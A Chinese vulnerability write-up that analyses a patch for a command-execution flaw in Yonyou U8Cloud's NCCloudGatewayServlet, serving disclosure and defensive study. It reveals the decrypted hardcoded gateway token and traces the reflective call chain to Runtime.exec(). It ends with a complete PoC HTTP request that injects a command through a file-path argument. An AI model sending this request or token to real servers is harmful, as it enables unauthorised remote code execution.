# 用友U8Cloud < 20250924补丁版本 NCCloudGatewayServlet 命令执行漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/19023  
> **文章ID**: 19023

---

## 补丁分析

补丁链接：<https://security.yonyou.com/#/patchInfo?identifier=9695976d67dd4786badf91df6cb6578c>



补丁涉及修改文件：

```
com.yonyou.nccloud.gateway.adaptor.servlet.ServletForGW
com.yonyou.nccloud.gateway.adapter.GateWayUtil
```

补丁新增文件：

```
com.yonyou.nccloud.gateway.adapter.util.GWWhiteCtrlUtil
```

使用IDEA diff ServletForGW、GateWayUtil文件，分析修复内容

左面是原文件，右面是补丁文件





### 原先的认证机制（硬编码token）

跟进`com.yonyou.nccloud.gateway.adapter.GateWayUtil#checkGateWayToken`







可见token是硬编码在/resources/nccloud/nccloudgateway.properties中的nccloud.gateway.nctoken

需要解密，直接调用原生的`nc.vo.framework.rsa.Encode#decode`对goimfdnalmcffdjciilkpokdaogklcdofkipilehgahfkgnpknbngcjfaeeomalj进行解密得到可以通过身份认证的gatewaytoken header为

```
gatewaytoken: TJ6RT-3FVCB-DPYP8-XF7QM-96FV3
```

### 修复后的认证机制

跟进`com.yonyou.nccloud.gateway.adapter.GateWayUtil#checkGateWayTokenNew`



时间戳以及对时间戳进行签名双重验证，看起来是增加了难度，实际上还是可以伪造

认证要求：验证时间戳ts和签名sign都不能为空，验证时间戳要和服务器时间相差不超过3分钟，使用硬编码的token作为HMAC密钥对ts进行签名和客户端传的签名sign进行字符串比较。

### 补丁新增的GWWhiteCtrlUtil文件（黑名单安全权限检查机制）

diff ServletForGW



跟进`com.yonyou.nccloud.gateway.adapter.util.GWWhiteCtrlUtil#checkAuthority`



阻止com.ufida.zior.console.IActionInvokeService服务调用，阻止nc.bs.pub.util.ProcessFileUtils调用（猜测该类可能存在命令执行的方法）

## 攻击链路分析

### 寻找ServletForGW#doAction的调用入口

寻找`com.yonyou.nccloud.gateway.adaptor.servlet.ServletForGW#doAction`的调用入口

找到`modules\uapbd\META-INF\
ccloudgw.upm`文件中

```
<?xml version="1.0" encoding='gb2312'?>
<module name="nccloud.gateway">
    <public>
        <component name="NCCloudGatewayServlet" remote="false" singleton="false" tx="NONE">
            <implementation>com.yonyou.nccloud.gateway.adaptor.servlet.ServletForGW</implementation>
        </component>
        <component singleton="true" remote="true" tx="CMT" supportAlias="true">
          <interface>com.yonyou.nccloud.gateway.service.ICloudNCService</interface>
          <implementation>com.yonyou.nccloud.gateway.service.impl.CloudNCServiceImpl</implementation>
        </component>
        <component cluster="SP" accessProtected="false" singleton="true" remote="true" tx="CMT" supportAlias="true">
          <interface>com.yonyou.nccloud.gateway.adapter.itf.IConfigurationFileService</interface>
          <implementation>com.yonyou.nccloud.gateway.adapter.impl.ConfigurationFileServiceImpl</implementation>
        </component>
        <component remote="true" singleton="true"  tx="NONE">
            <interface>com.yonyou.nccloud.gateway.adapter.itf.IImportBDFromGatewayToNCService</interface>
            <implementation>com.yonyou.nccloud.gateway.adapter.impl.ImportBDFromGatewayToNCServiceImpl</implementation>
        </component>
    </public>
</module>
```

可见com.yonyou.nccloud.gateway.adaptor.servlet.ServletForGW是Servlet组件 NCCloudGatewayServlet的实现

那么寻找NCCloudGatewayServlet是如何被调用的

`webapps\u8c_web\WEB-INF\web.xml`文件中

```
<servlet-mapping>
    <servlet-name>NCInvokerServlet</servlet-name>
    <url-pattern>/servlet/*</url-pattern>
</servlet-mapping>
```

可见servlet的路由都会到NCInvokerServlet处理

分析`nc.bs.framework.server.InvokerServlet`

POST 请求 `/servlet/NCCloudGatewayServlet` 匹配 `url-pattern` `/servlet/*`，进入InvokerServlet处理

pathInfo = request.getPathInfo() 得到 /NCCloudGatewayServlet

由于不以 `/~` 开头，所以 `moduleName = null` `serviceName = "NCCloudGatewayServlet"`



跟进 `nc.bs.framework.server.InvokerServlet#getServiceObject`



获取到服务对象为ServletForGW


而ServletForGW 又是实现了IHttpServletAdaptor 所以会进入obj instanceof IHttpServletAdaptor分支

最终调用`com.yonyou.nccloud.gateway.adaptor.servlet.ServletForGW#doAction`



### 寻找ServletForGW#doAction漏洞点



硬编码token通过身份认证，获取用户输入流转换为json格式的JsonObject对象，跟进`com.yonyou.nccloud.gateway.adaptor.servlet.ServletForGW#callNCService`



从json中取出serviceClassName、serviceMethodName、serviceMethodArgInfo

经过一系列操作，最终进入 `org.apache.commons.beanutils.MethodUtils#invokeMethod(java.lang.Object, java.lang.String, java.lang.Object[], java.lang.Class[])`



最终达到反射调用某个服务类的某个方法的效果

结合补丁中加黑名单的服务和类，可以猜测是有命令执行的方法的，所以先跟进服务 `com.ufida.zior.console.IActionInvokeService`





跟进 `com.ufida.zior.console.ActionExecutor#exec`





可以看出又是一个反射调用某类的某方法

结合补丁中的黑名单类`nc.bs.pub.util.ProcessFileUtils`



可以看到有命令执行方法

### 调用链总结

```
POST /servlet/NCCloudGatewayServlet → ServletForGW.doAction() → checkGateWayToken() → callNCService() → NCLocator.lookup(IActionInvokeService) → ActionInvokeService.exec() → ActionExecutor.exec() → Class.forName(ProcessFileUtils) → ProcessFileUtils.openFile() → Runtime.exec()
```

攻击者通过硬编码的token绕过ServletForGW的身份验证机制，然后构造恶意JSON请求指定serviceClassName为"com.ufida.zior.console.IActionInvokeService"，系统通过NCLocator.lookup()定位到该服务并反射调用其exec方法，该方法将第一个参数"nc.bs.pub.util.ProcessFileUtils"作为类名传递给ActionExecutor.exec()，ActionExecutor通过Class.forName()动态加载ProcessFileUtils类并实例化，接着通过反射调用openFile方法，攻击者在文件路径参数中注入命令分隔符和恶意命令（如"test.txt|calc;"），最终ProcessFileUtils.openFile()将包含注入命令的字符串拼接到Runtime.exec()中执行系统命令，从而获得服务器控制权。

## Poc

```
POST /servlet/NCCloudGatewayServlet HTTP/1.1
Host: x.x.x.x:xx
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
gatewaytoken: TJ6RT-3FVCB-DPYP8-XF7QM-96FV3
Content-Length: 913

{
  "serviceInfo": {
    "serviceClassName": "com.ufida.zior.console.IActionInvokeService",
    "serviceMethodName": "exec",
    "serviceMethodArgInfo": [
      {
        "agg": false,
        "isArray": false,
        "isPrimitive": false,
        "argType": {
          "body": "java.lang.String"
        },
        "argValue": {
          "body": "nc.bs.pub.util.ProcessFileUtils"
        }
      },
      {
        "agg": false,
        "isArray": false,
        "isPrimitive": false,
        "argType": {
          "body": "java.lang.String"
        },
        "argValue": {
          "body": "openFile"
        }
      },
      {
        "agg": false,
        "isArray": false,
        "isPrimitive": false,
        "argType": {
          "body": "java.lang.String"
        },
        "argValue": {
          "body": "test.txt"|calc;""
        }
      }
    ]
  }
}
```





执行命令弹出计算器
